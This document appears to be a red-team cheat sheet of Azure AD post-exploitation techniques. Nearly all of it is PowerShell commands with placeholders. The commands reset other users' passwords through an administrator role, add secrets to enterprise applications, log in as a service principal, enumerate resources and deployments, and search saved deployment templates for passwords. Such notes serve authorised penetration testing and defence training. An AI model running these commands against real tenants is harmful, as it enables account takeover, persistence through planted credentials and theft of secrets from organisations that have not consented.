 ## Reset password of other users
- Reset password if user has "authentication administrator" role on a group or administrative unit.

```
$password = "<PASSWORD>" | ConvertTo-SecureString -AsPlainText –Force
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "<ACCOUNT>"}).ObjectId | Set-AzureADUserPassword -Password $Password –Verbose
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access
```
Get-AzResource
```

## Deployments
#### Check access to any resource group
```
Get-AzResourceGroup
```

### Check if managed identity can read any deployment from the resource group:
```
Get-AzResourceGroupDeployment -ResourceGroupName <RESOURCE GROUP NAME>
```

#### Save the deployment template
```
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName <RESOURCE GROUP> -DeploymentName <DEPLOYMENT NAME>
```

#### Find passwords in the template
- Or manually scan through it!
```
cat <PATH TO .json FILE> | Select-String password
```
